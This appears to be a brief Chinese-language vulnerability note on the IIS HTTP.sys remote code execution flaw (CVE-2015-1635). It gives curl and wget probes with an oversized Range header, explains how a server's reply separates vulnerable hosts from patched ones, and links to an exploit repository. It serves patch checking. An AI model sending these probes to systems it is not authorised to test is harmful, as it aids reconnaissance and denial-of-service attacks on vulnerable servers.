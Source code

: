 >影响版本：
>安装了微软
>IIS 6.0以上的
>Windows Server 2008 R2/Server 2012/Server 2012 R2和Windows 7/8/8.1都受到这个漏洞的影响。

>漏洞描述：
>IIS远程代码执行漏洞存在于HTTP协议堆栈（HTTP.sys）中，
>当HTTP.sys不正确地解析HTTP请求时会导致此漏洞。

漏洞验证:

**curl url -H “Host:ip” -H “Range:bytes=0-18446744073709551615”**

**wget http://www.host.com --header="Range: bytes=0-18446744073709551615"**

- 若IIS服务器返回“requested range not satisfiable”，则是存在漏洞；
- 如果返回“the request has an invalid header name”，则说明漏洞已被修补。

参考链接：

https://github.com/helloexp/0day/tree/master/00-CVE_EXP/CVE-2015-1635

https://www.cnblogs.com/8ling/p/12823547.html

https://blog.csdn.net/qq_33608000/article/details/112798458
